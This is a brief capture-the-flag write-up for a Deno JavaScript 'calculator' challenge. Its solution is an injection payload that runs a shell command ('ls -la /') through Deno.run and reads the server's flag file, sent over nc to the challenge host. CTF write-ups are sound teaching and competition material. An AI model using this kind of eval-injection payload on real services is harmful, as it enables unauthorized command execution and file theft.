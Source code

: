 # Denis JS (old)

## Question

Author: Dimas & ayapi

Hello guys, Denis just make a simple calculator in js, can you try it?

## Solution

```nc ctf.tcp1p.team <Port>```

```js
Deno["run"]({ cmd: ["ls", "-la", "/"], stdout: "piped" }).output().then(output => { console.log(new TextDecoder().decode(output));});


console.log(Deno.readTextFileSync("/flag-af9bc2b0e080a36f66549ba2d790529e"));
```
